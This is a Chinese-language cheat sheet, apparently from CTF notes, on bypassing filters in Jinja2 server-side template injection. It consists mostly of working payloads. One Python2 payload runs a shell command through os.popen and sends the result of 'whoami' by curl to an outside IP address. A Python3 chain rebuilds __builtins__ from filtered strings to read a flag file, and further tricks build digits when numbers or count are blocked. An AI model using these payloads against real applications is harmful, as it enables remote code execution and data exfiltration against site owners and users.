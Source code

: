 

## 过滤`{{`或者`}}`

可以使用`{%`绕过
{%%}中间可以执行if语句，利用这一点可以进行类似盲注的操作或者外带代码执行结果

```
python2
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://39.105.116.195:8080/?i=`whoami`').read()=='p' %}1{% endif %}
python3 上面前置知识都讲了
{% set po=dict(po=a,p=a)|join%} //pop
{% set a=(()|select|string|list)|attr(po)(24)%} //获取_
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%} //获取__init__
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}  //获取__globals__
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%} //获取__getitem__
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}  //获取__builtins__,后面不必多说了都懂得
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
{%print(x.open(file).read())%}
```

## 过滤了数字

1.过滤器暴力获取

```
{% set c=(dict(e=a)|join|count)%} //1
{% set cc=(dict(ee=a)|join|count)%} //2
```

过滤了count，可以用length替换

```
{% set c=(dict(e=a)|join|length)%} //1
{% set cc=(dict(ee=a)|join|length)%} //2
```

然后想要获取更大的就没必要写那么多字符了，累啊

```
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set coun=(cc~ccc)|int%}{%print(coun)%} //获取12
```

2.全角数字替代正常数字

```
def half2full(half):  
    full = ''  
    for ch in half:  
        if ord(ch) in range(33, 127):  
            ch = chr(ord(ch) + 0xfee0)  
        elif ord(ch) == 32:  
            ch = chr(0x3000)  
        else:  
            pass  
        full += ch  
    return full  
t=''
s="0123456789"
for i in s:
    t+='\''+half2full(i)+'\','
print(t)

```
